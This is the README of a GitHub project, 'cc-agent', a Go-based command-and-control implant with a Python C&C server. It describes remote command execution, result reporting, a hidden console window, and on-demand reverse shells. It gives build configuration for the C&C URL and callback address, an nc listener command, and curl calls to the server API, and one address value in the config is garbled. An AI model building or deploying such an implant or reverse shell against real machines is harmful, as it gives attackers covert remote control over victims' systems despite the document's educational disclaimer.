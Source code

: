 # cc-agent
# Project Title: Go Reverse Shell Manager

## Overview

The Go Reverse Shell Manager is a comprehensive solution designed to facilitate remote command execution and management through a Go-based agent. This system allows for executing predefined or dynamic commands received from a server, with the capability to initiate a reverse shell session for in-depth interaction. This README provides an overview of the project, including setup instructions, usage examples, and important security considerations.

## Features

- **Remote Command Execution**: Execute commands received from a centralized server.
- **Reverse Shell Capability**: Open a reverse shell to a specified listener, allowing for interactive command execution.
- **Result Reporting**: Automatically sends the execution results of commands back to the server.
- **Hide Console Window**: Optionally runs without a visible console window to reduce footprint on the host system.

## Installation

### Prerequisites

- Go (1.15 or newer)
- Python (3.6 or newer)
- Access to a server capable of hosting the Python-based command server

### Setup

1. **Clone the repository**:

```bash
   git clone https://github.com/JeanBonBeurre34/cc-agent.git
   cd cc-agent
```

2. **Build the agent**
Before building the agent you will need to replace in the code the serverUrl and listenerAddress with your endpoint configuration. The listernerAddress point to the adresss on your call back for your reverse shell and the serverURL is the endpoint of your C&C. You can use a dns name for both to faciliate ip rotation.
```go
var (
    mu               sync.Mutex
    isCommandRunning bool
    serverURL        = "http://192.168.56.101:5000"
    listenerAddress  = "192.168.56.101:444The4"
)

```
Than you can build the agent.
```bash
go build -o go-agent.exe main.go
```

3. **Start the C&C **
Ensure your Python environment is set up, then run:
```bash
python server.py
```

## Executing Commands Remotely
The implant support the execution of remote command. You can execute the command and retrieve the result of the command.
Use the Python client to submit commands to the server:
```bash
python client.py "ipconfig"
```

To initiate a reverse shell session, submit the special "shell" command:
The reverse shell will be initated to the ip specify in the main.go source code you will need to replace it in your source code. The name of variable is listernerAddress. See the build section for more information
```bash
python client.py "shell"
```

Ensure you have a listener running on the specified port before initiating the reverse shell:
```bash
nc -lvp 4444
```

### Agent operation
The Go agent, once started, will periodically check the server for commands to execute. If the "shell" command is received, it will attempt to establish a reverse shell connection to the listener address.

## Security Considerations
** Warning: ** This system allows for remote command execution, which carries significant security risks. Use it responsibly and only in environments where you have explicit authorization.
Recommendations:
        - Implement TLS for communication between the agent and the server.
        - Add authentication mechanisms to verify the identity of the command server and the agent.
        - Limit the network scope where possible to reduce exposure.
        - Regularly audit and monitor the system for unauthorized usage.

## Disclaimer and Liability
This project is provided for educational and research purposes only. It is not intended for malicious use or in any context where unauthorized access to computer systems is involved. The tools and techniques demonstrated can represent significant security risks; they should be used responsibly and only in legal and authorized contexts.

### Liability
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

By using this software, you acknowledge the potential impact it may have on systems and affirm that you have permission from relevant authorities or parties to use it in your context. The owner and contributors to this project assume no responsibility for unauthorized or illegal use of the tool, or for any damage caused by such use. It is the end user's responsibility to comply with all applicable local, state, national, and international laws.

## Debug the application
### Submit a Command
This command sends a new command to the server to be queued for execution.
```bash
curl -X POST http://localhost:5000/submit_command -H "Content-Type: application/json" -d "{\"cmd\": \"echo Hello, World!\"}"
```
### Fetch a Command
To fetch the next command from the queue (for simulation as the actual fetching is done by your Go service agent, not via curl):
```bash
curl http://localhost:5000/command
```

### Submit the Result of a Command
Assuming a command with ID 1 was executed and you want to submit its result back to the server:
```bash
curl -X POST http://localhost:5000/submit_result -H "Content-Type: application/json" -d "{\"id\": \"1\", \"result\": \"Command executed successfully\"}"
```

### Retrieve the Result of a Command
To get the result of a command execution, assuming the command had an ID of 1:
```bash
curl http://localhost:5000/result/1
```
